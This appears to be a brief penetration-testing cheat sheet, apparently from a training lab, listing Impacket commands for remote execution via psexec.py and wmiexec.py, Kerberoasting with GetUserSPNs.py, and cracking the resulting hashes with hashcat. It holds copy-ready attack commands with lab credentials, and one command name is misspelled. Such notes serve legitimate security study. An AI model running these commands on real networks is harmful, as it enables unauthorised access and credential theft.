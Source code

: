 ### PSexec.py
The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Will be dropped in the SYSTEM context
```
psexec.py domain.local/username:'password'@host.ip
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### WMIexec.py
Stealthier approach than PSexec. Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation.
```
wmiexec.py domain.local/username:'password'@host.ip
wmixec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### GetUserSPNs.py
Kerberoasting with Linux
```
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request-user <any-user> -outputfile <text-file-name>
hashcat -m 13100 <text-file-name> /usr/share/wordlists/rockyou.txt 
```
